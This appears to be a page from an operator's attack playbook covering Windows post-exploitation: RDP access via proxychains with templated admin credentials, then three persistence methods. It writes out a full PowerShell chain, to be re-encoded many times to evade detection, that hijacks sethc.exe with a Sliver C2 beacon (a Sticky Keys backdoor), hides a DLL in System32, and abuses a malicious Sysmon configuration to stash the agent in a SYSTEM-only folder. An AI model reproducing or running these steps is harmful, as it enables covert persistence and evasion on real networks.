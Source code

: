 proxychains xfreerdp3 /u:'<% tp.frontmatter.ADM_USER1 %>@<% tp.frontmatter.CUS_SUBD1 %>' /p:'<% tp.frontmatter.ADM_USER1_PASS %>' /v:<% tp.frontmatter.CUS_1 %> /drive:/home/kali/Desktop/tools/Service\ Pack,'Local	Disk	(Cː)'

Drop the HelpDesk Service Pack folder on the new user's Desktop

Ensure our sethc.exe beacon is in the folder

Ensure the sysmonconfig-export.xml file is in the folder

Ensure SysinternalsSuite.zip was fully extracted into C:\\Windows\\System32 if it was not previously

Persistence

There will be 3 methods of persistence,  a hidden dll in C:\\Windows\\System32, WMI Event Subscription, and Sticky Keys.

Encode the powershell Command to change permissions on sethc.exe

On Kali

Using doge64commander.sh encode the following command between 20-30 times and output the file to the Service Pack/HelpDesk Service Pack folder, then run it as administrator on the target machine

cd "/home/kali/Desktop/tools/Service Pack/HelpDesk Service Pack"
/home/kali/Desktop/tools/doge64commander.sh ; mv commanded.ps1 sysmonsetup.ps1

#copy and paste this for the command, iterate it at least 15 times
takeown /f "C:\\windows\\System32\\sethc.exe" /a > $null ; icacls.exe C:\\Windows\\System32\\sethc.exe /grant "Everyone:F" > $null ; cd "C:\Users\Public\HelpDesk Service Pack"; Set-ItemProperty -Path C:\\Windows\\System32\\svchost.dll -Name Attributes -Value ([System.IO.FileAttributes]::Hidden) > $null ; copy sethc.exe C:\\Windows\\System32\\sethc.exe -force ; sysmon.exe -i -accepteula ; sysmon.exe -c sysmonconfig-export.xml ; del sethc.exe -force; sysmon.exe -c -- ; del sysmonconfig-export.xml -force ; shutdown /r /t 960

Note: If this does not work, you will need to PSexec this command, just throw psexec.exe -s in front of each of the commands, and re-encode it.

Sticky Keys

Replaces C:\\Windows\\System32\\sethc.exe with Sliver C2 agent executable. This replaces the Sticky Keys binary to our beacon. If you hit shift 5 times after this has been replaced, our beacon will come back.

SYSMON Persistence

Enable the malicious sysmon configuration and drop the C2 agent, and then delete it. Then revert the configuration file.

The configuration file creates an ACL protected archive folder in the C:\\ drive, which only NT AUTHORITY\\SYSTEM has access to.

The configuration file also filters on file deletion events on .exe files, and catches them before they're removed from the system, putting them in the ACL locked folder and renaming them to <sha256_hash>.exe. This creates a well-hidden, protected C2 agent that will be hidden from all scans that do not run in NT AUTHORITY\\SYSTEM context.

Even with admin credentials you get the following:
